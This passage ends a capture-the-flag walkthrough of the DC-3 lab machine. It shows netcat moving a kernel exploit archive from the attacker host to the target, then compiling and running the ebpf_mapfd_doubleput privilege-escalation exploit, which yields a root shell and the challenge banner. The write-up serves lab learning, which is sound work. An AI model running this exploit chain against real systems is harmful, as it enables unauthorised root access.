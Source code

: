 ```
root@kali:~# nc -nvlp 4444 < exploit.tar
www-data@DC-3:/var/www/html$ nc 10.10.10.6 4444 > exploit.tar
...
$ tar -xvf exploit.tar
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c
$ cd ebpf*
$ pwd
/var/www/html/ebpf_mapfd_doubleput_exploit
$ ./compile.sh	
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
whoami
root
```
I checked the `/home/dc3/.sudo_as_admin_successful` file with my newfound powers and it was empty. Onto `/root`:
```
cat /root/*
 __        __   _ _   ____                   _ _ _ _ 
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)
                                                     

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
```

I hope you learned something (like I always do in the process) and enjoyed my walkthrough.

Note: After finishing, I heard of `joomscan` which could've been useful early on. Check it out!
